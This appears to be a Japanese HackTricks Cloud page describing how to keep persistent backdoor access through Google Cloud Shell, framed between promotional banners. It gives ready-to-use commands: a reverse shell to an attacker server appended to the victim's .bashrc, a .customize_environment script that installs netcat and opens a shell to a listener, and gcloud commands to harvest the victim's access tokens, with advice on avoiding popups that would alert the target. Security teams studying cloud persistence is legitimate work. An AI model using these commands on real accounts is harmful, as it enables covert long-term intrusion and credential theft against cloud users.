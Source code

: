 # GCP - Cloud Shell 永続性

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWS ハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks にあなたの会社を広告したい**、または **HackTricks を PDF でダウンロードしたい** 場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式 PEASS & HackTricks グッズ**](https://peass.creator-spring.com) を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見する、私たちの独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクション
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に **参加する** か、[**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を **フォローする**。
* **HackTricks** に PR を提出してハッキングのコツを共有する [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github リポジトリ。

</details>

## Cloud Shell

詳細については、以下を確認してください:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的バックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/) は、ブラウザから直接、追加費用なしでクラウドリソースへのコマンドラインアクセスを提供します。

Google の Cloud Shell には、**ウェブコンソール** から、または **`gcloud cloud-shell ssh`** を実行してアクセスできます。

このコンソールには攻撃者にとって興味深い機能がいくつかあります:

1. **Google Cloud にアクセスできる任意の Google ユーザー**は、完全に認証された Cloud Shell インスタンスにアクセスできます（サービスアカウントでも、組織のオーナーであっても可能です）。
2. 当該インスタンスは、活動がない場合でも少なくとも120日間はホームディレクトリを維持します。
3. 組織がそのインスタンスの活動を監視する機能は**ありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを設置し、ユーザーが少なくとも120日ごとに GC Shell に接続する限り、バックドアが生き残り、攻撃者が実行するたびにシェルを取得することを意味します。次のようにして:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには、**`.customize_environment`** という別のファイルがあり、存在する場合、ユーザーが**cloud shell**にアクセスする**毎回実行されます**（前述のテクニックのように）。前のバックドアを挿入するか、以下のようなものを挿入して、ユーザーが"頻繁に"cloud shellを使用する限り、永続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Cloud ShellでGCPアクションを初めて実行する際に認証が必要な場合**、コマンドが実行される前にユーザーのブラウザに認証ウィンドウが**ポップアップ**します。予期しないポップアップが表示されると、ターゲットが疑念を抱き、持続性の方法を潰す可能性があります。

これは、攻撃者としてcloud shellから`gcloud projects list`を実行した際に、ブラウザのユーザーセッションで表示されるポップアップです。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

しかし、ユーザーが積極的にcloudshellを使用している場合、ポップアップは表示されず、次の方法でユーザーのトークンを**収集できます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続が確立される方法

基本的に、以下の3つのAPIコールが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（ローカルで作成した公開鍵を追加します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（インスタンスを起動します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（Google Cloud ShellのIPを教えてくれます）

しかし、さらに詳しい情報は[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSのハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手してください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* **HackTricks**にPRを提出して、あなたのハッキングのコツを共有してください。[**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;githubリポジトリ。

</details>
